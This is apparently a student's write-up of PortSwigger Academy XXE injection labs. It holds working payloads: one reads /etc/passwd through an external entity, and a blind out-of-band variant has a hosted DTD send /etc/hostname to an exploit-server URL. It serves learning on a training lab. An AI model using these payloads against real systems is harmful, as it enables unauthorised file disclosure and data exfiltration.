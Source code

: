 # XML external entity (XXE) injection

Get details at [here](https://portswigger.net/web-security/xxe)

XML (Extensible Markup Language) is a very popular data format. It is used in everything from web services (XML-RPC, SOAP, REST) through documents (XML, HTML, DOCX) to image files (SVG, EXIF data). To interpret XML data, an application needs an XML parser (also known as the XML processor).

---

[Lab 1](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

Description of this lab: inject an XML external entity to retrieve the contents of the /etc/passwd file.

Look at any post, it has `check stock` button, try to click, we can see website send a payload like this 

```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

The final payload is

```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY test SYSTEM "file:///etc/passwd">]>
    <stockCheck><productId>&test;</productId><storeId>1</storeId></stockCheck>
```

Send it with repeater, and solved the lab.

[Lab 2]()

[Lab 3]()

[Lab 4]()

[Lab 5](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

Description of this lab: exfiltrate the contents of the /etc/hostname file but does not display the result

Do the same as lab 1, but we need to send result to exploit server. At exploit server, use this payload like this

```
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0aa6003d04b1a1e6c3f1a78501860030.exploit-server.net/?%file;'>">
```

And payload in repeater

```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [<!ENTITY % loadDtd SYSTEM "https://exploit-0aa6003d04b1a1e6c3f1a78501860030.exploit-server.net/exploit">
    %loadDtd;
    %stack;
    %exfil;]<stockCheck>
    <productId>1</productId><storeId>1</storeId></stockCheck>
```
Send it with repeater, then go to access log at exploit server, we can see request like this `GET /?06da3baa945b HTTP/1.1" 200 "User-Agent: Java/17.0.5`, and result is 06da3baa945b. Go back to home and submit, then solved the lab.

